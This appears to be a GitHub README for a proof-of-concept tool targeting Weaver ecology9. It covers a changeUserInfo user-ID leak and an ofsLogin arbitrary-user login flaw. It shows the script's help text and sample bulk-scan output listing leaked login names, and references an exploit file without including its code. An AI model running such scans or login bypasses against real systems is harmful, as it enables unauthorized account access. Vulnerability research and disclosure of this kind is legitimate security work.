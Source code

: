 # ecology9-ofsLogin-poc
ecology9 changeUserInfo信息泄漏(☑️)及ofsLogin任意用户登录(☑️)

## poc
- `-h`
```bash
$ python3 poc.py -h
usage: poc.py [-h] [-u URL] [-U URLS]

ecology9 changeUserInfo信息泄漏检测

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     url
  -U URLS, --urls URLS  urls.txt
```

- `-u https://1.1.1.1/`

```bash
$ python3 poc.py -u https://1.1.1.1/
[+] 1.1.1.1, 发现loginId: ['admin', 'test']
```

- `-U urls.txt`

```bash
$ python3 poc.py -U urls.txt
[-] 1.1.1.1, 发现loginId: ['admin', 'test']
[-] 2.2.2.2, 未发现发现loginId或不存在漏洞！
[-] 3.3.3.3, 未发现发现loginId或不存在漏洞！
[-] 4.4.4.4, 未发现发现loginId或不存在漏洞！
[+] 5.5.5.5, 未发现发现loginId或不存在漏洞！
```

## exp
- `AESCoder.java`

![ainrm@20230527225644](./tu/ainrm@20230527230045.webp)

